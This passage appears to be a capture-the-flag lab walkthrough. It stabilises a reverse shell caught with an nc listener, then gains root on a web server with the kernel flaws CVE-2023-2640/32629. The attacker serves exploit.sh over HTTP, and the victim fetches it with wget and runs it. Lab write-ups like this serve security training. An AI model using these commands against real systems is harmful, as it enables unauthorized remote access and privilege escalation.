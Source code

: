 ```bash
[1]  + continued  nc -lvnp 443
                    reset xterm
www-data@webserver:/var/www/html/uploads$ export TERM=xterm
www-data@webserver:/var/www/html/uploads$ export SHELL=bash
```

* ``script /dev/null -c bash``: Spawns a tty
* ``ctrl+z``: puts the shell in background for later doing a treatment
* ``stty raw -echo;fg``: give us the shell back again
* ``reset xterm``: resets the terminal to give us the bash console
* ``export TERM=xterm``: let us do ctrl+l to clean the terminal
* ``export SHELL=bash``: specifies the system that we are using a bash console

However we gained access to another linux machine in the same network but not the host one:

```bash
www-data@webserver:/var/www/html/uploads$ ifconfig eth0
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.5.2  netmask 255.255.255.0  broadcast 192.168.5.255
        inet6 fe80::215:5dff:fe00:8a02  prefixlen 64  scopeid 0x20<link>
        ether 00:15:5d:00:8a:02  txqueuelen 1000  (Ethernet)
        RX packets 637  bytes 51517 (51.5 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 411  bytes 495806 (495.8 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

## Access as root to linux server

The kernel version is vulnerable to [CVE-2023-2640 and CVE-2023-32629](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629), so we can exploit it and gain access as root:

#### Attacker
```bash
❯ ls -l exploit.sh
-rw-r--r-- 1 gabri gabri 558 abr  8 18:23 exploit.sh
                                                                                                                                                                                        
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

#### Victim
```bash
www-data@webserver:/var/www/html/uploads$ cd /tmp/
www-data@webserver:/tmp$ wget http://10.10.14.124/exploit.sh
--2024-04-09 22:51:15--  http://10.10.14.124/exploit.sh
Connecting to 10.10.14.124:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 558 [text/x-sh]
Saving to: 'exploit.sh'

exploit.sh          100%[===================>]     558  --.-KB/s    in 0s      

2024-04-09 22:51:15 (27.2 MB/s) - 'exploit.sh' saved [558/558]

www-data@webserver:/tmp$ chmod +x exploit.sh 
www-data@webserver:/tmp$ ./exploit.sh 
[+] You should be root now
[+] Type 'exit' to finish and leave the house cleaned
root@webserver:/tmp## whoami
root
```
